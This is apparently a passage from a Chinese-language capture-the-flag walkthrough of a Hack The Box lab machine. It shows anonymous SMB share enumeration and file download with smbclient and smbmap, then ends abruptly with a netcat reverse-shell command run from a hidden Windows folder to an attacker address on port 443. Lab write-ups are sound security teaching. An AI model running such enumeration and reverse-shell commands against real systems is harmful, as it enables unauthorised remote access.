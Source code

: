 ![截图](64290ccb8a5ca1ade328eb9d3fef7af4.png)

## SMB - TCP 445

使用 smbclient 查看当前共享

```
root@kali# smbclient -N -L //10.10.10.130
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        BatShare        Disk      Master Wayne's secrets
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Users           Disk
```

也可以使用 smbmap 进行扫描，但是获取到的信息并没有很多

```
root@kali# smbmap -H 10.10.10.130
[+] IP: 10.10.10.130:445        Name: 10.10.10.130                                      
        Disk                                                    Permissions
        ----                                                    -----------
```

查看 Users 共享,BatShare 共享

```
root@kali# smbclient -N //10.10.10.130/users
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Sun Feb  3 08:24:10 2019
  ..                                 DR        0  Sun Feb  3 08:24:10 2019
  Default                           DHR        0  Thu Jan 31 21:49:06 2019
  desktop.ini                       AHS      174  Sat Sep 15 03:16:48 2018
  Guest                               D        0  Sun Feb  3 08:24:19 2019
root@kali# smbclient -N //10.10.10.130/batshare
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Feb  3 08:00:10 2019
  ..                                  D        0  Sun Feb  3 08:00:10 2019
  appserver.zip                       A  4046695  Fri Feb  1 01:13:37 2019

                5158399 blocks of size 4096. 2108668 blocks available
smb: \> get appserver.zip
getting file \appserver.zip of size 4046695 as appserver.zip (1078.9 KiloBytes/sec) (average 1078.9 KiloBytes/sec)
```


[localhost]: PS C:\Users\Batman\Documents> whoami
[localhost]: PS C:\Users\Batman\Documents> \windows\System32\spool\drivers\color\n.exe -e cmd 10.10.14.11 443 